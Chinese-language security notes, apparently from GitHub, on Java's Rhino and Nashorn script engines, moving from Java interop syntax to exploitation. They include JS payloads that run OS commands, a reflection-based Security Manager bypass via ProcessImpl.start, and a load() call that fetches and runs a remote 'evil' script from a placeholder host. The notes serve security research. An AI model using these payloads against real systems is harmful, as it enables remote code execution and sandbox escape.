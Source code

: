 # ScriptEngineManager

Java 6/7采用的js解析引擎是Rhino

java8开始换成了Nashorn。

## 调用Java方法

前面加上全限定类名即可

```js
var s = [3];
s[0] = "cmd";
s[1] = "/c";
s[2] = "whoami";
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");//输出
var result = sc.hasNext() ? sc.next() : "";
print(result)
sc.close();
```

## 导入Java类型

```js
var str = java.lang.String;

 //这种写法仅仅支持Nashorn，Rhino并不支持。jdk8+
var str = Java.type("java.lang.String");//类型
-----------------------------------------数组--------------------------------
// Rhino
var Array = java.lang.reflect.Array
var intClass = java.lang.Integer.TYPE
var array = Array.newInstance(intClass, 8)

// Nashorn
var str = Java.type("java.lang.String[]");
var IntArray = Java.type("int[]")
var array = new IntArray(8)
```

## 导入Java class

>通过反射可以获得java类

```js
// Rhino
var str = java.lang.String.class;
var impl = java.lang.ProcessImpl.class;

// Nashorn
var str = Java.type("java.lang.String").class;//类型
var impl = Java.type("java.lang.ProcessImpl").class;
```

## 导入Java类

```js
load("nashorn:mozilla_compat.js");

importClass(java.util.HashSet);
var set = new HashSet();

importPackage(java.util);
var list = new ArrayList();
```

在一些特殊情况下，导入的全局包会影响js中的函数，例如类名冲突。这个时候可以用JavaImporter，并配合with语句，对导入的Java包设定一个使用范围。

```js
// create JavaImporter with specific packages and classes to import

var SwingGui = new JavaImporter(javax.swing,
                            javax.swing.event,
                            javax.swing.border,
                            java.awt.event);
with (SwingGui) {
    // 在with里面才可以调用swing里面的类，防止污染
    var mybutton = new JButton("test");
    var myframe = new JFrame("test");
}
```

## 方法调用

方法在JavaScript中实际上是对象的一个属性，所以除了使用 . 来调用方法之外，也可以使用[]来调用方法：

```js
var System = Java.type('java.lang.System');
System.out.println('Hello, World');    // Hello, World
System.out['println']('Hello, World'); // Hello, World
```

## 方法重载

Java支持重载（Overload）方法，例如，System.out 的 println 有多个重载版本，如果你想指定特定的重载版本，可以使用[]指定参数类型。例如：

```js
var System = Java.type('java.lang.System');
System.out['println'](3.14);          // 3.14
System.out['println(double)'](3.14);  // 3.14
System.out['println(int)'](3.14);     // 3
```

## 反射

```js
import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;

public class main {
    public static void main(String[] args) throws Exception {
        String poc1 = "var s = [3];\n" +
                "s[0] = \"cmd\";\n" +
                "s[1] = \"/c\";\n" +
                "s[2] = \"whoami\";" +
                "var p = java.lang.Runtime.getRuntime().exec(s);\n" +
                "var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\n" +
                "var result = sc.hasNext() ? sc.next() : \"\";\n" +
                "print(result);sc.close();";

        String bypass_sm_exp = "var str = Java.type('java.lang.String[]').class;" +
                "var map = Java.type('java.util.Map').class;" +
                "var string = Java.type('java.lang.String').class;" +
                "var Redirect = Java.type('java.lang.ProcessBuilder.Redirect[]').class;" +
                "var boolean = Java.type('boolean').class;" +
                "var c = java.lang.Class.forName('java.lang.ProcessImpl');" +
                "var start = c.getDeclaredMethod('start',str,map,string,Redirect,boolean);" +
                "start.setAccessible(true);" +
                "var anArray = [\"cmd\", \"/c\", \"ipconfig\"];" +
                "var cmd = Java.to(anArray, Java.type(\"java.lang.String[]\"));" +
                "var input = start.invoke(null,cmd,null,null,null,false).getInputStream();" +
                "var reader = new java.io.BufferedReader(new java.io.InputStreamReader(input));" +
                "var stringBuilder = new java.lang.StringBuilder();" +
                "var line = null;" +
                "while((line = reader.readLine())!=null){" +
                "stringBuilder.append(line);" +
                "stringBuilder.append('\\r\\n');"+
                "}" +
                "stringBuilder.toString();" +
                "print(stringBuilder)";
        ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");
        engine.eval(bypass_sm_exp);
    }
}
```
2021/12/21 更新

## 远程加载

之前在安全客上介绍了这个利用思路[文章](https://www.anquanke.com/post/id/248771#h3-3)，当时没有利用成功，今天晚上jiang师傅给我说了利用思路。大概是一个load()去远程加载执行。

https://anuradha-15.medium.com/loading-scripts-using-nashorn-85585f495cf0

```java
String url = "http://127.0.0.1:8089/evil" ;
eval("load('"+url+"')");
```
evil
```java
var a=exp();function exp(){var x=new java.lang.ProcessBuilder; x.command("calc"); x.start();};
```

扩展，那这样的话是不是可以减少我们的exp拉。在远程的调用我们的恶意代码可以bypass sm,然后通过load来加载。
